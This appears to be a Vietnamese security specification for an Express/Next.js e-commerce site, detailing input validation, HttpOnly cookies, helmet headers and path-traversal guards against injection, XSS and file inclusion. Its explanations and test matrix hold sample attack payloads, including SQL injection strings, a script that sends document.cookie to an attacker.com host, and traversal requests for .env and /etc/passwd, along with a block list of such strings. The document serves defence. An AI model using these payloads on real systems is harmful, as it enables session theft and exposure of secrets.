

# Đặc tả Kỹ thuật: Lớp Kiểm soát Đầu vào & Phòng chống Lỗ hổng Ứng dụng Web

**Ngày:** 2026-11-21  
**Mục tiêu:** Xây dựng lớp phòng vệ chuyên sâu (Defense in Depth) tập trung vào trang Thanh toán (Checkout) và các luồng nhập liệu nhạy cảm, ngăn chặn triệt để 3 nhóm lỗ hổng: **SQL/NoSQL Injection**, **Cross-Site Scripting (XSS)**, và **File Inclusion (LFI/RFI) / Path Traversal**.  
**Dự án:** Website Thương mại Điện tử Đồ Công Nghệ (`webbanhang`)  
**Công nghệ áp dụng:** Express 5 (Backend), Mongoose 9 (MongoDB), Next.js 15 (Frontend), Zod, Helmet.

---

## 1. Bối cảnh & Mục tiêu Bảo mật

Trang thanh toán (`/checkout`) và quy trình đặt hàng (`POST /api/orders`) chứa các biểu mẫu nhập liệu quan trọng:
- Thông tin giao hàng: Họ và tên người nhận (`fullName`), số điện thoại (`phone`), địa chỉ nhận hàng (`address`).
- Phương thức thanh toán: `paymentMethod` (`cod`, `bank`).
- Mã ưu đãi: `promotionCode`.
- Số lượng sản phẩm giỏ hàng: `quantity`.

Kẻ tấn công thường nhắm vào các trường nhập liệu này để thực hiện:
1. Chèn payload SQL hoặc NoSQL nhằm bypass logic, trích xuất dữ liệu khách hàng hoặc thao túng giá trị đơn hàng.
2. Tiêm mã JavaScript độc hại vào thông tin đơn hàng để khi quản trị viên (Admin) hoặc khách hàng xem chi tiết đơn hàng, mã script tự động thực thi nhằm đánh cắp Session Cookie, can thiệp giao diện hoặc chuyển hướng thanh toán.
3. Sử dụng tham số URL hoặc payload để dò quét, đọc trộm file cấu hình nhạy cảm (`.env`, `config.js`) hoặc nhúng file từ xa (LFI/RFI).

---

## 2. Chi tiết Đặc tả Kỹ thuật Từng Thành phần

### 2.1. Phòng chống SQL Injection (SQLi) & NoSQL Injection

#### Phân tích & Nguyên lý:
- Dự án sử dụng **MongoDB + Mongoose 9**. Tuy nhiên, kẻ tấn công và các công cụ quét tự động (SQLMap, OWASP ZAP) sẽ gửi các payload SQL kinh điển như `' OR 1=1--`, `' UNION SELECT ...`, `admin'--`, `; DROP TABLE...`.
- Trong môi trường MongoDB/Express, lỗ hổng tương đương và nguy hiểm không kém là **NoSQL Injection** (Object Injection), ví dụ truyền `{ "$gt": "" }` hoặc `{ "$ne": null }` qua body JSON hoặc query string để vượt qua kiểm tra mật khẩu, đánh cắp danh sách đơn hàng hoặc bypass điều kiện query.
- Ngoài ra, nếu số lượng thiết bị (`quantity`) không được kiểm soát kiểu số nguyên dương, kẻ tấn công có thể gửi số âm (`quantity: -5`) hoặc số thực để làm giảm tổng tiền hoặc gây tràn số.

#### Đặc tả Triển khai:
1. **Kiểm duyệt & Làm sạch NoSQL Operators (NoSQL Injection Mitigation):**
   - Tích hợp middleware loại bỏ hoặc vô hiệu hóa các ký tự đặc biệt của MongoDB (`$`, `.`) trong `req.body`, `req.query`, `req.params`.
   - Ngăn chặn triệt để việc truyền Object chứa toán tử Mongoose vào các trường mong đợi là kiểu String.
2. **Kiểm duyệt dữ liệu đầu vào nghiêm ngặt (Strict Schema Validation với Zod):**
   - **`fullName`:**
     - Kiểu: Chuỗi ký tự (String), đã `trim()`.
     - Độ dài: Tối thiểu 2 ký tự, tối đa 100 ký tự.
     - Ký tự hợp lệ: Chữ cái tiếng Việt (có dấu), tiếng Anh, khoảng trắng, dấu gạch nối.
     - Cấm triệt để: Các ký tự điều khiển SQL và HTML đặc biệt (`'`, `"`, `;`, `--`, `/*`, `*/`, `<`, `>`, `\`).
   - **`phone`:**
     - Regex số điện thoại Việt Nam chuẩn: `/^(0|\+84)(3|5|7|8|9)[0-9]{8}$/`.
     - Bác bỏ ngay lập tức nếu chứa chữ, ký tự đặc biệt hoặc chuỗi SQLi.
   - **`address`:**
     - Kiểu: Chuỗi ký tự, tối thiểu 5 ký tự, tối đa 250 ký tự.
     - Chỉ chấp nhận ký tự chữ, số, dấu phân cách hợp lệ trong địa chỉ (dấu phẩy `,`, chấm `.`, gạch chéo `/`, gạch ngang `-`, khoảng trắng).
     - Không cho phép chứa các thẻ HTML (`<script>`, `<iframe>`...) hoặc từ khóa SQL độc hại.
   - **`promotionCode`:**
     - Giới hạn: Regex `/^[A-Z0-9_-]{3,20}$/i`. Không chấp nhận khoảng trắng hay ký tự đặc biệt.
   - **`quantity`:**
     - Số nguyên (`z.number().int()`), giá trị nằm trong khoảng: `1 <= quantity <= 99`.
     - Tuyệt đối không chấp nhận số âm, số thực (float), chuỗi số hoặc giá trị `NaN`/`Infinity`.
   - **`productId` / `categoryId` / `orderId`:**
     - Bắt buộc kiểm tra định dạng MongoDB ObjectId hợp lệ (24 ký tự hex: `/^[0-9a-f]{24}$/i`).
3. **Cơ chế xử lý tham số an toàn (Safe Parameter Handling):**
   - Tất cả truy vấn Mongoose phải sử dụng schema casting và parameterized queries sẵn có của Mongoose (`findById`, `findOne({ _id: toObjectId(id) })`).
   - Tuyệt đối không sử dụng `$where` với chuỗi JavaScript động hoặc `eval()`.
   - Với tìm kiếm sản phẩm bằng Regex (`productService.js`), duy trì hàm `escapeRegex` để ngăn chặn ReDoS (Regular Expression Denial of Service).

---

### 2.2. Phòng chống Cross-Site Scripting (XSS) & Bảo vệ Session Cookie

#### Phân tích & Nguyên lý:
- Nếu dữ liệu nhập vào trang web (họ tên, địa chỉ, lời nhắn giao hàng, mã giảm giá, nội dung bình luận đánh giá) chứa mã script độc hại (`<script>alert(1)</script>`, ``, `<svg onload=...>`), khi trang web hiển thị các thông tin này lên giao diện mà không được mã hóa/làm sạch, trình duyệt nạn nhân sẽ thực thi đoạn script đó (Stored XSS).
- Mục tiêu chính của kẻ tấn công XSS là:
  1. Đánh cắp Cookie phiên làm việc (`document.cookie`).
  2. Giả mạo giao diện để lừa người dùng nhập thông tin thẻ/tài khoản.
  3. Tự động gửi request với tư cách của nạn nhân (Client-side Request Forgery).

#### Đặc tả Triển khai:
1. **Bảo vệ Session Cookie Tuyệt đối (HttpOnly Cookie Protection):**
   - Token xác thực JWT được lưu trong Cookie mang tên `token`.
   - **Cấu hình Cookie bắt buộc:**
     - `httpOnly: true`: Ngăn chặn hoàn toàn JavaScript phía Client (`document.cookie`) đọc được token. Kể cả khi có lỗi XSS xuất hiện, tin tặc cũng không thể đánh cắp Session Cookie.
     - `sameSite: 'lax'` (hoặc `'strict'`): Ngăn chặn Cookie bị gửi kèm trong các yêu cầu cross-site bất hợp pháp (chống CSRF).
     - `secure: config.env === 'production'`: Chỉ gửi Cookie qua giao thức HTTPS đã mã hóa khi chạy môi trường production.
     - `path: '/'`: Giới hạn phạm vi hợp lệ của Cookie.
2. **Khử nhiễm dữ liệu đầu vào (Input Sanitization):**
   - Viết middleware/utility tự động làm sạch (HTML escape hoặc sanitize) toàn bộ chuỗi đầu vào trong `req.body` trước khi lưu vào cơ sở dữ liệu.
   - Các trường văn bản như `fullName`, `address`, `comment` (review) phải được loại bỏ triệt để các thẻ `<script>`, `<style>`, `<iframe>`, `on*` event handlers (`onload`, `onerror`, `onclick`).
3. **HTTP Security Headers (Tích hợp `helmet`):**
   - Kích hoạt `helmet` trong backend Express:
     - `Content-Security-Policy (CSP)`: Chỉ cho phép nạp script, style, image từ các nguồn đáng tin cậy.
     - `X-Content-Type-Options: nosniff`: Ngăn trình duyệt tự động suy đoán MIME-type để thực thi script trá hình.
     - `X-Frame-Options: DENY`: Chống nhúng trang web vào iframe trên trang khác (Clickjacking).
     - `X-XSS-Protection: 0`: Tắt cơ chế XSS auditor cũ của trình duyệt (theo khuyến nghị bảo mật hiện đại nhằm tránh side-channel attack) và chuyển hoàn toàn sang kiểm soát bằng CSP.
   - Cấu hình Security Headers tương ứng trên Next.js (`next.config.mjs`).
4. **An toàn khi hiển thị tại Frontend (Output Encoding):**
   - Next.js / React mặc định escape an toàn tất cả các chuỗi được render trong JSX (ví dụ `{order.shippingAddress.fullName}`).
   - Đảm bảo trong toàn bộ dự án frontend:
     - Tuyệt đối không sử dụng `dangerouslySetInnerHTML` với dữ liệu do người dùng nhập.
     - Kiểm tra các thuộc tính `href` của thẻ `<a>` hoặc `<Link>`: Bác bỏ các đường dẫn bắt đầu bằng `javascript:` hoặc `data:text/html`.

---

### 2.3. Phòng chống File Inclusion (LFI/RFI) & Path Traversal

#### Phân tích & Nguyên lý:
- **Local File Inclusion (LFI) & Path Traversal:** Xảy ra khi server nhận tham số đường dẫn từ người dùng (ví dụ: `?file=../../../../.env` hoặc `GET /api/files/download?name=../../../etc/passwd`) rồi trực tiếp đọc hoặc trả về file đó (`res.sendFile`, `fs.readFile`). Kẻ tấn công có thể đọc trộm file `.env` (chứa `JWT_SECRET`, thông tin kết nối database MongoDB) hoặc mã nguồn hệ thống.
- **Remote File Inclusion (RFI) / SSRF:** Xảy ra khi ứng dụng nhận một URL từ client và tự động tải hoặc thực thi nội dung từ URL đó (`include('http://attacker.com/malicious.php')` hoặc `fetch(userProvidedUrl)`), dẫn đến việc tải backdoor về server.

#### Đặc tả Triển khai:
1. **Chặn đứng Path Traversal tại cấp Middleware:**
   - Xây dựng middleware `pathTraversalGuard`:
     - Kiểm tra toàn bộ URL, query params và request body.
     - Phát hiện và chặn đứng ngay lập tức các chuỗi dò đường dẫn: `..`, `../`, `..\`, `%2e%2e%2f`, `%2e%2e/`, null-byte injection (`%00`, `\0`).
     - Phát hiện và cấm truy cập nếu URL hoặc tham số chứa tên các file/thư mục nhạy cảm: `.env`, `.git`, `package.json`, `config.js`, `node_modules`, `/etc/`, `/proc/`, `windows/`.
     - Trả về mã lỗi `400 BAD_REQUEST` hoặc `403 FORBIDDEN` ngay lập tức, ghi log cảnh báo bảo mật.
2. **Kiểm soát chặt chẽ điểm truy xuất tệp (File/Image Endpoints):**
   - Hiện tại dự án chỉ có API ảnh `/api/images/:id`.
   - Endpoint này chỉ chấp nhận `id` là MongoDB ObjectId 24 ký tự hex (`toObjectId(id)`). Nếu kẻ tấn công truyền `/api/images/../../.env`, hệ thống sẽ trả về lỗi định dạng ID và từ chối xử lý, không bao giờ ánh xạ sang đường dẫn ổ đĩa vật lý (`fs.readFile`).
   - Dữ liệu ảnh được lưu trực tiếp dạng Binary (Buffer) trong MongoDB, không lưu đường dẫn file trên ổ đĩa cục bộ, loại bỏ nguy cơ LFI dựa trên file system.
3. **Phòng chống RFI / SSRF:**
   - Hệ thống backend tuyệt đối không có endpoint nào cho phép nạp tài nguyên từ URL do client cung cấp để thực thi hoặc lưu trữ.
   - Đối với Next.js image proxy (`next.config.mjs`): Giới hạn domain cụ thể thay vì mở rộng toàn bộ internet (`hostname: '**'`), hoặc áp dụng cơ chế xác thực URL nguồn ảnh nghiêm ngặt.
4. **Kiểm soát Tải lên Tệp (File Upload Hardening):**
   - Cấu hình Multer lưu trữ trong RAM (`memoryStorage`), dung lượng tối đa 2MB.
   - Whitelist MIME types nghiêm ngặt: chỉ cho phép `image/jpeg`, `image/png`, `image/webp`. Cấm upload file `.html`, `.svg` (vì SVG có thể nhúng thẻ `<script>` gây XSS), file script, executable.

---

## 3. Kiến trúc Luồng Dữ liệu Bảo vệ (Security Pipeline)



---

## 4. Bảng Ma trận Kiểm thử & Kịch bản Tấn công (Security Test Matrix)

| Nhóm lỗ hổng | Kịch bản thử nghiệm / Payload | Kỳ vọng hành vi hệ thống |
| :--- | :--- | :--- |
| **SQLi** | Họ tên = `Admin' OR '1'='1` | Zod validation báo lỗi `400 INVALID_NAME` (ký tự không hợp lệ). Không lọt vào database. |
| **SQLi** | Số điện thoại = `' UNION SELECT 1,2,3--` | Zod validation báo lỗi `400 INVALID_PHONE` (sai định dạng SĐT). |
| **SQLi** | Mã giảm giá = `WELCOME'; DROP TABLE users;--` | Báo lỗi `400 INVALID_PROMO_CODE` (chỉ chấp nhận chữ số). |
| **NoSQLi** | Body = `{"shippingAddress": {"fullName": {"$gt": ""}}}` | `mongo-sanitize` loại bỏ toán tử hoặc Zod báo lỗi `Expected string, received object`. |
| **XSS** | Họ tên = `<script>fetch('http://attacker.com/?c='+document.cookie)</script>` | Hệ thống loại bỏ thẻ script / từ chối dữ liệu chứa thẻ HTML. |
| **XSS** | Địa chỉ = `` | Bị sanitize thành chuỗi an toàn hoặc bị Zod từ chối. Trình duyệt không kích hoạt alert. |
| **XSS (Session)**| Thử chạy `console.log(document.cookie)` trên trình duyệt sau khi đăng nhập | Cookie `token` không xuất hiện vì được cấu hình `httpOnly: true`. |
| **LFI** | Request `GET /api/images/../../.env` | Middleware path traversal hoặc `toObjectId` chặn ngay, trả về `400` hoặc `404`. |
| **LFI** | Query param `?page=../../../../etc/passwd` | Middleware chặn ngay lập tức, trả về `400/403 BAD_REQUEST`. |
| **RFI / SSRF** | Gửi URL ngoài vào tham số hình ảnh/tệp | Bị từ chối vì không khớp whitelist định dạng / protocol nội bộ. |
| **Input Logic** | Số lượng giỏ hàng = `-5` hoặc `999999` hoặc `1.5` | Bị chặn bởi `quantitySchema` (yêu cầu số nguyên từ 1 đến 99). |

---

## 5. Quy chuẩn Phản hồi Lỗi (Error Contract)

Mọi vi phạm bảo mật hoặc kiểm duyệt đầu vào đều tuân thủ chặt chẽ định dạng lỗi thống nhất của dự án:
```json
{
  "code": "VALIDATION_ERROR",
  "message": "Dữ liệu không hợp lệ",
  "fieldErrors": {
    "shippingAddress.phone": "Số điện thoại không đúng định dạng",
    "shippingAddress.fullName": "Họ và tên chứa ký tự không hợp lệ"
  }
}
```
Các lỗi dò quét đường dẫn hoặc tấn công nguy hiểm sẽ trả về:
```json
{
  "code": "MALICIOUS_REQUEST",
  "message": "Yêu cầu bị từ chối do vi phạm chính sách bảo mật"
}
```
Không để lộ stack trace, tên bảng, cấu trúc câu truy vấn database hoặc đường dẫn file hệ thống ra ngoài response.